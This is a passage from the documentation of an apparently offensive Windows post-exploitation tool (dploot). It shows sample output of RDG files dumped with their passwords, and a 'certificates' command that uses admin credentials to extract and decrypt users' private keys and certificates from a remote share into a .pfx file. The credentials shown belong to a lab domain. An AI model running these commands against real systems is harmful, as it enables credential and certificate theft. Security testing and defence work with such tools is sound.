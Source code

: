 ```text
        Profile Name:   WAZA\Administrator
        Username:       WAZA\Administrator
        Password:       Placeholder1234567890

[LOGON PROFILES]
        Profile Name:   Custom
        Username:       WAZA\Administrator
        Password:       Password!123

[*] Found RDG file: C:\Users\jsmith\Documents\letzgo.rdg
[SERVER PROFILES]
        Name:           DC01.waza.local
        Profile Name:   Custom
        Username:       WAZA\jdoe
        Password:       Password#123

[SERVER PROFILES]
        Name:           SRV01.waza.local
        Profile Name:   Custom
        Username:       WAZA\jfile
        Password:       Password#123
```

#### certificates

The **certificates** command will search for users certificates from *MY* and decrypt them with `-mkfile FILE` of one or more {GUID}:SHA1, or with `-passwords FILE` combo of user:password, `-nthashes` combo of user:nthash or a `-pvk PVKFILE` to first decrypt masterkeys.

With `mkfile`:

```text
$ dploot certificates waza.local/Administrator:'Password!123'@192.168.57.5 -mkfile waza.mkf
[*] Connected to 192.168.57.5 as waza.local\Administrator (admin)
[*] Found PrivateKey Blob: \\192.168.57.5\C$\Users\jsmith\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-2239934126-3187342257-2761709825-1104\3dce313258d2d89bd659c770dd4d9bb8_a14e72b0-8859-4206-8d30-211c4f03281b
[*] Found Certificates Blob: \\192.168.57.5\C$\Users\jsmith\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\8F4463B200970B8ECC8FFCDC2AB152478AB654AE
[*] Found match between 8F4463B200970B8ECC8FFCDC2AB152478AB654AE certificate and 3dce313258d2d89bd659c770dd4d9bb8_a14e72b0-8859-4206-8d30-211c4f03281b private key !

Issuer:			CN=waza-SRV01-CA,DC=waza,DC=local
Subject:		CN=John Smith,CN=Users,DC=waza,DC=local
Valid Date:		2022-04-14 13:58:46
Expiry Date:		2023-04-14 13:58:46
Extended Key Usage:
	Unknown OID (1.3.6.1.4.1.311.10.3.4)
	emailProtection (1.3.6.1.5.5.7.3.4)
	clientAuth (1.3.6.1.5.5.7.3.2)
	[!] Certificate is used for client auth!

-----BEGIN CERTIFICATE-----
MIIFvjCCBKagAwIBAgITZQAAAIG+kiOSy5YNoQAAAAAAgTANBgkqhkiG9w0BAQsF
[...]
Ite9xByUf01wuPBUgtJr559zNAhg72pY6rGkja7Ky97bjw==
-----END CERTIFICATE-----

[*] Writting certificate to 8F4463B200970B8ECC8FFCDC2AB152478AB654AE.pfx
```
